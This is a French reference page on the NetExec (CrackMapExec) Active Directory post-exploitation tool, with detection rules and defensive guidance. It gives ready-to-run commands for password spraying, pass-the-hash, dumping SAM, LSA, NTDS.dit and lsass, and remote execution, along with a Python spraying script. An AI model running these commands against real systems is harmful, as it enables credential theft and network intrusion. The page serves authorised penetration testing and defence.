

# CrackMapExec (NetExec) — Post-exploitation réseau

> [!info] **En 1 phrase**
> CrackMapExec, désormais **NetExec (`nxc`)**, = la boîte à outils post-exploitation Active Directory : valider des creds, énumérer SMB/WinRM/LDAP/MSSQL et dumper des secrets à l'échelle.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | CrackMapExec (legacy, `cme`) / NetExec (successeur, `nxc`) |
| Description | Outil de post-exploitation Active Directory : validation de credentials, énumération SMB/WinRM/LDAP/MSSQL/SSH/RDP/FTP/VNC, dumping de secrets, mouvement latéral |
| Catégorie | Exploitation & Cracking |
| Sous-catégorie | Post-exploitation Active Directory |
| Type d'outil | CLI |
| Licence | BSD-2-Clause (NetExec) |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Python |
| Développeur / organisation | CrackMapExec : byt3bl33d3r (original) ; NetExec : NeffIsBack, Marshall-Hallenbeck, zblurx (Pennyw0rth) |
| Projet officiel | Pennyw0rth/NetExec (fork actif de CrackMapExec) |
| Dépôt officiel | https://github.com/Pennyw0rth/NetExec |
| Documentation officielle | https://www.netexec.wiki/ |
| Date de création | CrackMapExec : 2015 ; fork NetExec : septembre 2023 |
| État du projet | actif (CrackMapExec legacy non maintenu) |
| Dernière version connue | NetExec v1.5.1 (2026-02-23) |
| Systèmes compatibles | Linux, Windows (binaires fournis), macOS via pip/pipx |

---

## Concept

Le projet original (crackmapexec / `cme`) n'est plus maintenu : la suite est **NetExec** (`nxc`), fork communautaire. On valide des couples user:pass ou hash (`-u -p`, `-H`) sur des protocoles (`smb`, `winrm`, `ldap`, `mssql`, `ssh`) puis on énumère (`--shares`, `--users`, `--sessions`) et on dump (`--sam`, `--lsa`, `-M mimikatz`, `-M lsassy`). `--exec-method` choisit la méthode d'exécution (smbexec, wmiexec, mmcexec).

Sa force tient au **traitement par lot** : une seule ligne de commande attaque toute une liste de cibles (`-d domain`, fichier d'IP ou CIDR), et l'architecture de modules (`-M`) permet d'étendre les capacités (BloodHound, enum_av, spooler, dotnetdump…). Le successeur NetExec conserve la syntaxe de `cme` tout en corrigeant les bugs et en ajoutant des protocoles et modules neufs. Il se place à l'étape de validation des identifiants et de mouvement latéral dans un engagement AD, entre l'énumération (BloodHound) et le dumping de secrets.

Les cibles s'expriment en CIDR (`nxc smb 10.10.10.0/24`), en plage (`--range`), via un fichier (`--target-file`) ou une IP isolée. La sortie est colorée et lisible : `[+]` pour un succès, `[-]` pour un échec, `[+] Pwn3d!` quand les creds donnent un accès administrateur complet (admin local + admin domaine sur SMB).



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Pass-the-Hash (PtH) | S'authentifier avec le hash NTLM (`-H`) sans connaître le mot de passe : `T1550.002` |
| Password spraying | Un seul mot de passe sur de nombreux comptes (`--continue-on-success`, `--no-bruteforce`) pour éviter le lockout |
| NTLM | Protocole d'authentification Windows challenge/réponse ; hash réutilisables pour PtH ou relay |
| SMB / SMBv2+ | Partage de fichiers (445) ; partages d'admin C$, ADMIN$, IPC$ |
| WinRM | Gestion à distance (5985/5986) ; exécution de commandes via `-x` |
| LDAP / LDAPS | Énumération de l'annuaire (comptes, groupes, ACL, GPO) sur 389/636 |
| MSSQL | SQL Server (1433) ; requêtes `-q` et exécution via xp_cmdshell |
| NTDS.dit | Base AD contenant tous les hash NTLM du domaine ; dump via `--ntds` (DRSUAPI / VSS) |
| SAM / LSA Secrets | BDD locale des comptes machines (SAM) et secrets (LSA) ; dump via `--sam` / `--lsa` |
| lsass | Processus Windows contenant les creds en mémoire ; dumpé par `mimikatz` / `lsassy` |
| `Pwn3d!` | Marqueur : creds = admin local + admin domaine sur l'hôte SMB |

---

## Installation

### Debian / Ubuntu / Kali Linux

```bash
# Kali : paquet netexec
sudo apt update && sudo apt install -y netexec
# Debian / Ubuntu : passer par pipx (non packagé upstream)
python3 -m pip install --user pipx && python3 -m pipx ensurepath
```

### Arch Linux (BlackArch)

```bash
sudo pacman -S netexec
```

### Fedora / RHEL

```bash
sudo dnf install python3-pipx && pipx install netexec
```

### macOS

```bash
pipx install netexec
```

### Windows

```powershell
# Binaires fournis dans les releases GitHub ; sinon pipx :
pipx install netexec
```

### Docker

```bash
# Pas d'image officielle : construire depuis le Dockerfile du dépôt
git clone https://github.com/Pennyw0rth/NetExec && cd NetExec && docker build -t netexec .
docker run --rm -it netexec smb --help
```

### Compilation depuis les sources

```bash
# Méthode privilégiée par les mainteneurs : clone + pipx
git clone https://github.com/Pennyw0rth/NetExec && cd NetExec
pipx install .
# Legacy CrackMapExec (archivé, ne pas utiliser en production) :
pipx install crackmapexec
```

> [!warning] Prérequis & problèmes potentiels
> - Python 3.8+ requis ; `pipx` isole l'outil et évite les conflits de dépendances (impacket, cryptography, etc.).
> - Ne pas mélanger avec d'autres outils impacket dans le même environnement (`pip install --user`) : conflits de versions fréquents.
> - Mettre à jour régulièrement : la v1.5.1 corrige une vulnérabilité d'écriture arbitraire dans le module `spider_plus`.

---

## Configuration

NetExec utilise un **fichier de configuration INI** créé au premier lancement, plus un dossier de données dédié.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `~/.nxc/` | Dossier racine (config, BDD, logs, workspaces) | — | Emplacement de toutes les données générées | créé au premier lancement |
| `NXC_PATH` (env) | Redirige le dossier `~/.nxc` | chemin absolu | Isolement / portabilité | `export NXC_PATH=/opt/nxc-data` |
| `~/.nxc/nxc.conf` | Config principale (INI) : options globales, workspaces, intégration BloodHound CE, logging | sections/sous-sections | Personnalisation du comportement | édition manuelle |
| Template de référence | `nxc/data/nxc.conf` dans le dépôt | — | Restaurer une config cassée | `cp nxc/data/nxc.conf ~/.nxc/` |

> [!note] À vérifier
> Le schéma exact de `nxc.conf` évolue entre versions : consulter `nxc/data/nxc.conf` du dépôt et `netexec.wiki` pour la liste des sections.

---

## Architecture interne

- **Sous-commandes par protocole** : `nxc smb`, `winrm`, `ldap`, `mssql`, `ssh`, `rdp`, `ftp`, `vnc`, `wmi`, `nfs`... Chacun a son namespace d'options et de modules.
- **Brique d'authentification** : construite sur **impacket** (Kerberos/NTLM, DCE/RPC, SMB, LDAP). Supporte password, hash NTLM (`-H`), tickets Kerberos (`-k`, `--use-kcache`, `--aes`) et authentification locale (`--local-auth`).
- **Moteur de modules (`-M`)** : chaque module est un fichier Python dans `nxc/modules/` exposant `on_login` (exécuté après authentification). Modules courants : `mimikatz`, `lsassy`, `bloodhound`, `enum_av`, `spooler`, `slinky`, `webdav`, `dotnetdump`, `kerberoasting`, `nopac`, `find_delegation`, `get_keystrokes`, `spider_plus`.
- **Exécution de commandes** : `--exec-method` choisit la technique — `smbexec` (services SMB), `wmiexec` (WMI), `mmcexec` (MMC/DCOM) — puis `-x` exécute sur la cible (WinRM/SSH).
- **Données locales** : BDD de type workspace et historique dans `~/.nxc/`, logs des runs, fichiers téléchargés (`--get-file`).
- **Cibles multi-hôtes** : liste, CIDR, plage `--range`, `--target-file` ou lecture depuis des pcap ; parallélisme via `-t` (threads).

---

## Commandes

### Commandes principales

```bash
nxc <protocole> <cibles> -u <user> -p <pass> [options]
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `nxc smb 10.10.10.10 -u user -p 'Password123'` | Valider des creds sur SMB | `[+]` si valides, `Pwn3d!` si admin |
| `nxc smb 10.10.10.10 -u user -p 'Password123' --shares` | Énumérer les partages SMB | Liste des partages + droits |
| `nxc smb 10.10.10.10 -u user -p 'Password123' --users` | Énumérer les comptes du domaine | Utilisateurs AD |
| `nxc smb 10.10.10.10 -u user -p 'Password123' --sessions` | Lister les sessions ouvertes | Sessions par hôte |
| `nxc smb 10.10.10.10 -u admin -H <ntlm_hash> --sam` | Dump du SAM local (pass-the-hash) | Hash NTLM des comptes locaux |
| `nxc smb 10.10.10.10 -u admin -H <ntlm_hash> --lsa` | Dump des secrets LSA | Creds de services, etc. |
| `nxc smb 10.10.10.10 -u admin -H <hash> --ntds` | Dump du NTDS.dit (DRSUAPI) | Tous les hash du domaine |
| `nxc winrm 10.10.10.10 -u user -p 'Password123' -x 'whoami'` | Exécuter une commande via WinRM | Sortie de la commande |

### Commandes avancées

```bash
# Password spraying sur un subnet (anti-lockout)
nxc smb 10.10.10.0/24 -U users.txt -p 'Summer2024!' --continue-on-success
# Dump lsassy puis injection BloodHound
nxc smb 10.10.10.10 -u admin -H <hash> -M lsassy
nxc smb 10.10.10.10 -u admin -p 'Password123' -M bloodhound --options '-c All'
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `smb / winrm / ldap / mssql / ssh / rdp / ftp / vnc` | Protocole cible | `nxc smb ...` | Basic |
| `-u <user>` / `-U <fichier>` | Utilisateur / liste | `nxc smb 10.10.10.10 -U users.txt -p 'x'` | Basic |
| `-p <pass>` / `-P <fichier>` | Mot de passe / liste | `nxc smb 10.10.10.10 -u user -P pass.txt` | Basic |
| `-H <hash>` | Pass-the-hash NTLM | `nxc smb ... -u admin -H aad3b4...` | Basic |
| `-d <domaine>` | Domaine cible | `nxc smb ... -d corp.example.com` | Basic |
| `--local-auth` | Auth contre les comptes locaux | `nxc smb ... --local-auth` | Intermediate |
| `--shares` / `--users` / `--sessions` | Énumération partages / comptes / sessions | `nxc smb ... --shares` | Intermediate |
| `--pass-pol` | Politique de mot de passe | `nxc smb ... --pass-pol` | Advanced |
| `--sam` / `--lsa` / `--ntds` | Dump SAM / LSA / NTDS.dit | `nxc smb ... --ntds` | Advanced |
| `-M <module>` / `--options` | Charger un module + ses options | `nxc smb ... -M bloodhound --options '-c All'` | Intermediate |
| `--exec-method smbexec\|wmiexec\|mmcexec` | Méthode d'exécution distante | `nxc smb ... --exec-method wmiexec` | Advanced |
| `-x <commande>` | Exécute une commande distante | `nxc winrm ... -x 'whoami'` | Intermediate |
| `-q <requête>` | Requête SQL (MSSQL) | `nxc mssql ... -q 'SELECT @@version'` | Advanced |
| `--continue-on-success` | Ne pas stopper au premier succès (spray) | `nxc smb ... --continue-on-success` | Intermediate |
| `--no-bruteforce` | Tester chaque combinaison une seule fois | `nxc smb ... --no-bruteforce` | Advanced |
| `-k` / `--aes` | Authentification Kerberos | `nxc smb ... -k` | Advanced |
| `-t <n>` | Nombre de threads | `nxc smb 10.10.10.0/24 -t 100 ...` | Intermediate |
| `--target-file <f>` | Fichier de cibles | `nxc smb --target-file cibles.txt -u ...` | Intermediate |

> [!tip] Options les plus utiles au quotidien
> `--shares` (premier réflexe), `-H` (pass-the-hash), `-M lsassy` (dump lsass), `--continue-on-success` (spray), `-x` (exécution WinRM/SSH).

---

## Exemples pratiques

### Beginner

```bash
# Valider des credentials puis énumérer les partages
nxc smb 10.10.10.10 -u jdoe -p 'Summer2024!'
nxc smb 10.10.10.10 -u jdoe -p 'Summer2024!' --shares
```

### Intermediate

```bash
# Spray : un mot de passe sur une liste de comptes (attention au lockout)
nxc smb 10.10.10.10 -U users.txt -p 'Summer2024!' --continue-on-success
# Pass-the-hash et dump SAM sur un hôte administré localement
nxc smb 10.10.10.10 -u admin -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --sam
```

### Advanced

```bash
nxc smb 10.10.10.10 -u admin -H <ntlm_hash> -M lsassy
nxc smb 10.10.10.10 -u admin -p 'Password123' -M bloodhound --options '-c All'
nxc smb 10.10.10.10 -u admin -p 'Password123' --ntds
```

---

## Workflow complet (scénario pas à pas)

1. **Creds initiaux** : `jdoe:Summer2024!` récupérés → `nxc smb 10.10.10.10 -u jdoe -p 'Summer2024!'` → `[+]` (valid).
2. **Énumération** : `nxc smb 10.10.10.10 -u jdoe -p 'Summer2024!' --shares` → partage `Finance` lisible ; `--sessions` et `--users` complètent la cartographie.
3. **Politique & RID** : `nxc smb 10.10.10.10 -u jdoe -p 'Summer2024!' --pass-pol` → politique de lockout (calibrer le spray).
4. **Escalade** : compte `admin` local trouvé → `nxc smb 10.10.10.10 -u admin -H <hash> --sam` → dump du SAM local.
5. **Dump mémoire** : `nxc smb 10.10.10.10 -u admin -H <hash> -M lsassy` → mémoire lsass, nouveaux creds **domaine**.
6. **Réitération** : rejouer les creds fraîchement trouvés sur le périmètre (`--ntds` sur un DC si un compte privilégié est validé) et cartographier la compromission.

---

## Scénarios avancés

### Scénario 1 : password spray sur tout le domaine

```bash
nxc smb 10.10.10.0/24 -U users.txt -p 'Summer2024!' --continue-on-success
nxc ldap 10.10.10.10 -U users.txt -p 'Summer2024!' --get-sid
```

### Scénario 2 : dump de secrets et injection BloodHound

```bash
nxc smb 10.10.10.10 -u admin -H <hash> -M lsassy
nxc smb 10.10.10.10 -u admin -p 'Password123' -M bloodhound --options '-c All'
nxc smb 10.10.10.10 -u admin -p 'Password123' --ntds
```

### Scénario 3 : mouvement latéral via WinRM et exécution de commandes

```bash
nxc winrm 10.10.10.10 -u user -p 'Password123' -x 'whoami /all'
nxc winrm 10.10.10.10 -u user -p 'Password123' -x 'powershell -enc <base64>'
nxc ssh 10.10.10.20 -u user -p 'Password123' -x 'id'
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Énumération | Validation de creds, partages, comptes, sessions, politique de mot de passe |
| Post-exploitation | Dump SAM/LSA/NTDS.dit, dump lsass (mimikatz/lsassy), BloodHound |
| Mouvement latéral | Exécution de commandes (smbexec/wmiexec/mmcexec), WinRM, MSSQL, SSH |
| Credential Access | Pass-the-hash, password spraying, tickets Kerberos |
| Reconnaissance AD | Énumération LDAP, RID brute, cartographie rapide d'un parc |

---

## MITRE ATT&CK

CrackMapExec est référencé comme **Software S0488** (utilisé notamment par Dragonfly G0035, MuddyWater G0069, FIN7 G0046, APT39 G0087 et Ember Bear G1003).

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Discovery | Account Discovery: Domain Account | T1087.002 | `--users` / `--groups` énumèrent les comptes | Requêtes LDAP/SMB anormales, EID 4799 | Moindre privilège, audit LDAP |
| Credential Access | Brute Force | T1110 | Combinaisons user/pass sur un périmètre | EID 4625 massifs, lockouts | Politique mot de passe, MFA |
| Credential Access | Password Spraying | T1110.003 | Spray (`--continue-on-success`) | Corrélation des 4625 | MFA, seuils anti-spray |
| Execution | PowerShell | T1059.001 | Commandes PowerShell via WMI/WinRM | EID 4104/4103, 4688 | AMSI, Constrained Language Mode |
| Discovery | Network Share Discovery | T1135 | `--shares` énumère les partages | Accès aux admin shares (C$, ADMIN$) | ACL, surveiller les admin shares |
| Credential Access | OS Credential Dumping: SAM | T1003.002 | `--sam` dump la base locale | Accès SAM, événements de dump | LSA Protection, PPL, Credential Guard |
| Credential Access | OS Credential Dumping: NTDS | T1003.003 | `--ntds` (DRSUAPI / VSS) | Réplication (4662), VSS | Protéger les DC, monitorer les réplications |
| Credential Access | OS Credential Dumping: LSA Secrets | T1003.004 | `--lsa` dump les secrets LSA | Accès à lsass / LSA | LSA Protection, PPL |
| Discovery | Password Policy Discovery | T1201 | `--pass-pol` récupère la politique | Requêtes NETLOGON/DS | — |
| Lateral Movement | Use Alternate Authentication Material: Pass the Hash | T1550.002 | `-H` s'authentifie avec un hash NTLM | EID 4624 type 3 sans Kerberos | Credential Guard, MFA |
| Execution | Windows Management Instrumentation | T1047 | `wmiexec` exécute via WMI | EID 19/20/21 (WMI-Activity) | Bloquer le WMI distant si inutile |
| Persistence | Modify Registry | T1112 | Clé wdigest (`UseLogonCredential`) | EID 4657 (modif registre) | Désactiver WDigest |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Liste alignée sur la page MITRE ATT&CK du Software S0488 : https://attack.mitre.org/software/S0488/

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Événements AD | EID 4625 (échecs), 4624 (connexions), 4768/4769 (Kerberos), 4799, 4662 (réplication) |
| Connexions massives | SMB/WinRM répétés vers de nombreuses IP depuis un seul poste (Sysmon EID 3, logs 4624) |
| Dump de secrets | Accès à lsass (PPL/LSA Protection), modifs registre WDigest, accès NTDS.dit (VSS) |
| Exécution distante | Services créés, tâches planifiées, invocations WMI (EID 19/20/21), PowerShell (EID 4104) |
| Processus et modules | Processus `nxc`/`cme` (EDR/Sigma), modules `mimikatz`/`lsassy` côté victime |
| Réseau | Accès aux partages admin inhabituels, requêtes `lsarpc`/`samr` fréquentes |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma — Windows : logons NTLM massifs (type 3) depuis une même source
title: Suspicious NTLM Logon Type 3 - Multiple Targets
id: <uuid-a-generer>
status: experimental
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4624
        LogonType: '3'
        LogonProcessName: 'NtLmSsp'
    timeframe: 5m
    condition: selection | count() by SourceIp > 25
```

```bash
# Exemple Suricata/Snort — connexions SMB répétées vers plusieurs cibles
alert tcp any any -> any 445 (msg:"NETEXEC - SMB enumeration traffic"; flow:to_server,established; metadata:created_at 2026_08_16; sid:1000001; rev:1;)
```

> [!note] À vérifier
> Règles pédagogiques à adapter (seuils, période) à votre SIEM. Pour la production, préférer les règles SigmaHQ officielles (Windows Security 4625/4624) et les corrélations dédiées au password spraying.

---

## Automatisation

```bash
# Bash — valider les creds et ne garder que les accès admin
nxc smb 10.10.10.0/24 -u user -p 'Password123' | grep -i "Pwn3d"
```

```python
# Python — spray avec délai anti-lockout
import subprocess, time
for u in open("users.txt").read().split():
    r = subprocess.run(f"nxc smb 10.10.10.10 -u {u} -p 'Summer2024!'".split(),
                       capture_output=True, text=True)
    print(u, "OK" if "[+]" in r.stdout else "-")
    time.sleep(2)
```

---

## Output et parsing

La sortie est textuelle et **colorée** (`[+]` succès, `[-]` échec, `Pwn3d!` admin). Pas de sortie JSON native stabilisée : penser au parsing texte.

```bash
# Filtrer les succès et extraire les hôtes « Pwn3d »
nxc smb 10.10.10.0/24 -u admin -p 'Password123' | grep "Pwn3d" | awk '{print $2}'
```

```python
# Python — parsing de la sortie (regex sur les marqueurs)
import subprocess, re
out = subprocess.run(["nxc", "smb", "10.10.10.10", "-u", "admin", "-H", "<hash>"],
                     capture_output=True, text=True).stdout
for ip, domain, status in re.findall(r"(10\.10\.10\.\d+)\s+445\s+(\S+)\s+(\S+)", out):
    print(ip, domain, status)
```

> [!note] À vérifier
> Le format exact des colonnes varie selon le protocole : tester le regex sur un échantillon réel avant de l'automatiser.

---

## Intégrations

```text
Nmap/Masscan → nxc (validation creds) → BloodHound → Mimikatz/lsassy → Rubeus/Kerberos → Rapport
```

- [[Outil - BloodHound]] — `-M bloodhound` alimente l'analyse des chemins d'attaque
- [[Outil - Impacket]] — `smbexec`/`wmiexec` reposent sur impacket ; `ntlmrelayx` complète le relais
- [[Outil - Mimikatz]] — dumping de secrets en mémoire
- [[Outil - Evil-WinRM]] — shell WinRM interactif post-accès
- [[Outil - Responder]] — capturer des hashes NetNTLMv2 puis les rejouer/relayer
- [[Outil - Rubeus]] / [[Outil - Kerbrute]] — tickets Kerberos (`-k`, `--use-kcache`)
- [[Tools| Outils]] global
- [[Techniques/Pass-the-Hash| Pass-the-Hash]] · [[Techniques/Password Spraying| Password Spraying]] · [[Techniques/NTLM Relay| NTLM Relay]] · [[Techniques/Dump NTDS.dit| Dump NTDS.dit]] · [[Techniques/DCsync| DCsync]] · [[Techniques/Golden Ticket| Golden Ticket]] · [[Techniques/AS-REP Roasting| AS-REP Roasting]] · [[Techniques/Privilege Escalation Windows| PrivEsc Windows]] · [[Techniques/Pivoting et Tunneling| Pivoting]]

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| CrackMapExec legacy (`cme`) | Syntaxe historique connue | **Non maintenu**, vulnérable | À éviter sauf scripts existants |
| impacket (psexec, wmiexec, smbclient...) | Souplesse Python, protocoles variés | Pas de multi-hôtes natif, verbeux | Scripts sur mesure |
| Evil-WinRM | Shell interactif WinRM complet | Une cible, pas de masse | Interaction manuelle |
| BloodHound CE | Visualisation des chemins d'attaque | Pas de validation de creds en masse | Analyse des privilèges |

> **Quand utiliser NetExec plutôt qu'impacket ?** Pour valider des creds sur **des centaines d'hôtes en une commande** et dumper en masse : NetExec est fait pour l'échelle. Pour intégrer l'authentification SMB dans un script Python spécifique, rester sur impacket.

---

## Performance

- **Parallélisme** : `-t` contrôle le nombre de threads ; un CIDR /24 se traite en quelques dizaines de secondes selon le réseau.
- **Volume** : un jeu de creds validé sur tout un périmètre en une passe ; `--continue-on-success` poursuit le spray après un succès.
- **Coût réseau** : chaque hôte génère une connexion SMB/LDAP/WinRM ; un déploiement rapide est **bruyant** (corrélations SIEM 4625).
- **Mémoire** : les modules de dump (lsassy/mimikatz) consomment côté victime ; les fichiers téléchargés restent dans `~/.nxc/`.

> [!note] À vérifier
> Pas de benchmark officiel publié : ordres de grandeur empiriques, dépendants du réseau et de la politique de lockout.

---

## Troubleshooting

### Common problems

#### Problème : « ModuleNotFoundError: No module named 'impacket' »

- **Cause** : environnement Python corrompu ou conflit de dépendances.
- **Solution** : réinstaller isolé — `pipx reinstall netexec`. **Vérif** : `nxc --version`.

#### Problème : aucune sortie / pas de réponse sur les cibles

- **Cause** : firewall, SMB désactivé ou timeouts.
- **Solution** : augmenter les timeouts, tester une connexion null (`nxc smb <ip> -u '' -p ''`). **Vérif** : distinguer erreur réseau vs échec d'authentification.

#### Problème : `--sam` / `--lsa` / `--ntds` échouent

- **Cause** : pas de droits **admin local** (ou domain admin pour NTDS) ; protections PPL/LSA.
- **Solution** : vérifier le statut `Pwn3d!` avant le dump ; basculer sur `-M lsassy` ou `--ntds --ntds-vss`. **Vérif** : `nxc smb <ip> -u <user> -p <pass> --local-auth`.

#### Problème : le compte se verrouille pendant un spray

- **Cause** : non-respect de la politique de lockout (`--pass-pol`).
- **Solution** : utiliser `--no-bruteforce`, limiter le débit et l'intervalle. **Vérif** : relire `--pass-pol` avant chaque campagne.

---

## Sécurité de l'outil

- **Droits requis** : les dumps et l'exécution nécessitent des comptes privilégiés ; usage **autorisé par écrit** uniquement (test d'intrusion).
- **Stockage local** : hashes et secrets restent dans `~/.nxc/` — nettoyer après engagement, chiffrer les postes de travail.
- **Modules tiers** : installer uniquement depuis des sources de confiance ; la v1.5.1 corrige une **écriture arbitraire de fichier** dans `spider_plus`.
- **Legacy `cme`** : non maintenu et vulnérable ; ne pas l'utiliser en environnement sensible.
- **Traces** : l'outil est bruyant (SMB massifs, 4625, WMI) — ralentir les débits et segmenter les phases en engagement réel.

---

## Limitations

- **Windows/AD en pratique** : les techniques ciblent SMB/WinRM/AD ; pas d'équivalent natif pour d'autres SI.
- **Dépendant d'impacket** : une mise à jour d'impacket peut casser certaines fonctions (exécution, Kerberos).
- **Détectable** : les corrélations SIEM (4625, 4624, WMI EID 19/20/21) et EDR repèrent un usage massif.
- **Faux négatifs** : un hôte qui ne répond pas (firewall, SMBv1 désactivé, segmenté) n'apparaît pas dans la sortie.
- **Lockout** : un spray mal réglé peut **verrouiller des comptes** et casser l'engagement.

---

## Cheatsheet

```bash
# Valider des creds
nxc smb 10.10.10.10 -u user -p 'Password123'

# Énumération
nxc smb 10.10.10.10 -u user -p 'Password123' --shares --users --sessions

# Pass-the-hash et dumps
nxc smb 10.10.10.10 -u admin -H <ntlm_hash> --sam
nxc smb 10.10.10.10 -u admin -H <ntlm_hash> --lsa
nxc smb 10.10.10.10 -u admin -p 'Password123' --ntds

# Modules
nxc smb 10.10.10.10 -u admin -H <hash> -M lsassy
nxc smb 10.10.10.10 -u admin -p 'Password123' -M bloodhound --options '-c All'

# Exécution de commandes
nxc winrm 10.10.10.10 -u user -p 'Password123' -x 'whoami'

# Spray (respecter la politique de lockout)
nxc smb 10.10.10.0/24 -U users.txt -p 'Summer2024!' --continue-on-success --no-bruteforce
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Valider des creds/hash et énumérer/dumper sur un parc Windows/AD, en masse |
| **Quand l'utiliser ?** | Après un premier jeu de creds : validation, énumération, post-exploitation |
| **Commande principale** | `nxc smb 10.10.10.10 -u user -p 'Password123' --shares` |
| **Alternative principale** | impacket (psexec/wmiexec), Evil-WinRM (interactif), BloodHound CE (analyse) |
| **Concepts importants** | Pass-the-Hash, password spraying, SAM/LSA/NTDS.dit, lsass, smbexec/wmiexec |
| **Liens associés** | [[Outil - BloodHound]] · [[Outil - Impacket]] · [[Outil - Mimikatz]] · [[Outil - Responder]] · [[Techniques/Pass-the-Hash| Pass-the-Hash]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| **Événements AD** | 4625 (échecs), 4624 (connexions), 4768/4769 (Kerberos), 4799... |
| **LSA Protection / PPL** | Bloque les dumps lsass (mimikatz, lsassy) |
| **Credential Guard** | Empêche l'extraction de secrets en mémoire |
| **AMSI / EDR** | Détecte l'exécution de mimikatz et variantes |
| **Password spray detection** | Corrélation des 4625 massifs depuis une même source |
| **SMB/WinRM massifs vers plusieurs hôtes** | Connexions répétées vers de nombreuses IP depuis un seul poste (Sysmon event 3, logs 4624) |

---

## Tips & Pièges

> [!tip] **Tips**
> - `nxc` (NetExec) est le **successeur actif** : `cme` est mort, migre tes scripts.
> - `-M lsassy` et `--lsa` passent là où mimikatz échoue (défenses renforcées).
> - Passe à `--exec-method wmiexec` quand l'exécution SMB échoue.
> - Lire `--pass-pol` **avant** tout spray pour calibrer l'intervalle anti-lockout.

> [!warning] **Pièges**
> - Un spray trop rapide **verrouille des comptes** : garde un intervalle entre les tentatives.
> - `--sam`/`--lsa` ne fonctionnent que si l'utilisateur a les droits **admin local** de la machine cible.
> - La sortie est textuelle : ne pas parser sans vérifier le format réel (colonnes variables).
> - L'outil est **bruyant** : l'EDR/SIEM de la victime peut tout voir ; mettre à jour régulièrement (vulnérabilité `spider_plus` corrigée en v1.5.1).

---

## References

### Official

- Documentation officielle (wiki) : https://www.netexec.wiki/
- GitHub officiel : https://github.com/Pennyw0rth/NetExec
- Releases / Changelog : https://github.com/Pennyw0rth/NetExec/releases
- Dépôt legacy CrackMapExec (archivé) : https://github.com/byt3bl33d3r/CrackMapExec

### Security references

- MITRE ATT&CK S0488 — CrackMapExec : https://attack.mitre.org/software/S0488/
- MITRE ATT&CK T1110.003 — Password Spraying : https://attack.mitre.org/techniques/T1110/003/
- MITRE ATT&CK T1003.003 — NTDS : https://attack.mitre.org/techniques/T1003/003/
- CISA AA24-249a — usage de CME par des acteurs russes : https://www.cisa.gov/sites/default/files/2024-09/aa24-249a-russian-military-cyber-actors-target-us-and-global-critical-infrastructure.pdf

### Community

- NetExec Complete Cheatsheet (gist communautaire) : https://gist.github.com/strikoder/99635df00444bbf5fc90ca83ec8051a0
- HackTricks — Pentesting SMB / NetExec : https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb

---

**Liens :** [[Tools| Outils]] · [[Techniques/Pass-the-Hash| Pass-the-Hash]] · [[Techniques/LLMNR-NBT-NS Poisoning| LLMNR/NBT-NS]] · [[Techniques/Kerberoasting| Kerberoasting]]
